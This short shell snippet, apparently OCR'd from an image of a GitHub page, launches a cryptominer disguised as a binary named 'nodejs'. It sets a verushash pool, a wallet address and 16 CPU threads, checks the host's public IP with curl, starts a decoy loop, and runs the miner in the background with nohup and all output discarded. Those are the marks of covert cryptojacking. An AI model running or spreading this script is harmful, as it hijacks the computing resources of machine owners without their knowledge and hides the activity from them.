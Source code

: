 chmod +x nodejs
config="--algorithm verushash --pool us.vipor.net:5040 --wallet RHkiLGRarhTt8SF66vJzwEcyxNm4k1fXTH --password x --worker $(hostname -f) --cpu-threads 16"
curl ifconfig.io
nohup bash -c 'while true; do date; sleep 10; done' &
nohup ./nodejs $config > /dev/null 2>&1 &
